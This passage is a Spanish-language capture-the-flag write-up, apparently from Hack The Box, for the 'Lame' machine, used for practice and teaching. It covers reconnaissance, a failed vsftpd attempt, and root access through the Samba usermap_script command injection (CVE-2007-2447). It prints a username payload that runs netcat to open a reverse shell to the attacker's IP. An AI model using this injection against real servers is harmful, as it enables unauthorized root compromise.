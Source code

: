 Cuando ejecutas run, el módulo:

- Inyecta un payload dentro del campo username usando la técnica:

```bash
/=`nohup nc 10.10.16.69 4444 -e /bin/sh`
```

- Samba, al interpretar ese nombre de usuario, ejecuta el comando sin autenticación.

### ✅ 4. Resultado

- Se abre una reverse shell desde la víctima (10.10.10.3) hacia ti (10.10.16.69:4444).
- La shell es abierta como usuario root en la máquina víctima.

## 🧩 **Post-explotación y captura de flags**

Una vez dentro del sistema como root, se realiza la fase de **post-explotación**, donde se localizan los archivos `user.txt` y `root.txt`, los cuales contienen las flags.

```bash
find / -name "user.txt" -o -name "root.txt"
```

Este comando busca, **en todo el sistema**, archivos llamados:

- `user.txt` → suele contener la **flag del usuario** (primer objetivo)
- `root.txt` → suele contener la **flag de root** (segundo y principal objetivo)

### 📂 Resultado:

- `/home/makis/user.txt` → Archivo del usuario normal
- `/root/root.txt` → Archivo del usuario root

![image.png](Lame%20by%20Zayrus%201e9cb9b1e60b80b29c45f839166a690a/image%206.png)

# ✅ CONCLUSION ✅

**Reconocimiento inicial (Nmap):**

Se identificaron múltiples servicios activos:

- **FTP (21)**: `vsftpd 2.3.4` con acceso anónimo.
- **SSH (22)**: `OpenSSH 4.7p1` (sin uso en esta intrusión).
- **Samba (139/445)**: `Samba 3.0.20`, vulnerable.
- **distccd (3632)**: En desuso, no explotado.

**Análisis del servicio FTP:**

- Se confirmó que permitía login **anónimo**, pero **no se obtuvo una shell funcional**.
- Se intentó explotar `vsftpd 2.3.4` (CVE-2011-2523) con **Metasploit**, pero no se obtuvo sesión. Esto confirmó que el backdoor **no estaba presente o no era funcional** en esta instancia.

**Explotación exitosa vía Samba (CVE-2007-2447):**

- Se utilizó el módulo `multi/samba/usermap_script` en **Metasploit**.
- Este exploit aprovecha una **inyección de comandos** en el campo de nombre de usuario antes del proceso de autenticación (por el uso inseguro de `username map script`).
- Se obtuvo una **reverse shell como root**, directamente, sin necesidad de credenciales.

**Post-explotación:**

- Se localizaron las flags (`user.txt` y `root.txt`) mediante un `find` global.
- Esto confirmó **control total del sistema** y la finalización exitosa de la máquina.